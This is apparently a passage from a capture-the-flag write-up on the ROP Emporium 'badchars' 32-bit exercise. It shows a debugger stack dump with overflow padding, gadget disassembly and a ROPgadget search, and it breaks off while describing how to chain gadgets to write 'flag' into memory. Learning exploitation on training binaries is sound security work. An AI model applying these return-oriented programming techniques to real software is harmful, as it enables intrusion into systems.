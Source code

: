 ```asm
─────────────────────────────────────────────────────────────────────────────── stack ────
0xffeafd34│+0x0000: 0xf7fc68cd  →  "Failed to open file: %s\n"	 ← $esp
0xffeafd38│+0x0004: 0x0804a018  →  0xf7fae000  →  0x001e6d6c
0xffeafd3c│+0x0008: 0x41414141
0xffeafd40│+0x000c: 0xf7fc67db  →  <print_file+12> add ebx, 0x1825
0xffeafd44│+0x0010: 0x41414141
0xffeafd48│+0x0014: 0xf7fc627c  →  0x0000009c
0xffeafd4c│+0x0018: "AAAAAAAAAAAAAAAA"
0xffeafd50│+0x001c: "AAAAAAAAAAAA"
```


# Choosing Gadgets 
Okay, so we previously identified some pretty tasty-looking gadgets in the usefulGadgets function

```asm
gef➤  disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048543 <+0>:	add    BYTE PTR [ebp+0x0],bl
   0x08048546 <+3>:	ret    
   0x08048547 <+4>:	xor    BYTE PTR [ebp+0x0],bl
   0x0804854a <+7>:	ret    
   0x0804854b <+8>:	sub    BYTE PTR [ebp+0x0],bl
   0x0804854e <+11>:	ret    
   0x0804854f <+12>:	mov    DWORD PTR [edi],esi
   0x08048551 <+14>:	ret    
   0x08048552 <+15>:	xchg   ax,ax
   0x08048554 <+17>:	xchg   ax,ax
   0x08048556 <+19>:	xchg   ax,ax
   0x08048558 <+21>:	xchg   ax,ax
   0x0804855a <+23>:	xchg   ax,ax
   0x0804855c <+25>:	xchg   ax,ax
   0x0804855e <+27>:	xchg   ax,ax
End of assembler dump.
```


In the previous exercise, we used a "useful gadget," along with this one:

```sh
$ ROPgadget --binary badchars32 | grep "pop esi"
...
0x080485b9 : pop esi ; pop edi ; pop ebp ; ret
```



# ROP Chain

With this gadget, we can set up values that will be popped into esi, edi and ebp.
Then, we can store esi (our string, "flag") at the address stored in edi.
We can have ebp store the same address as edi.
In other words (in pseudo-C syntax):
	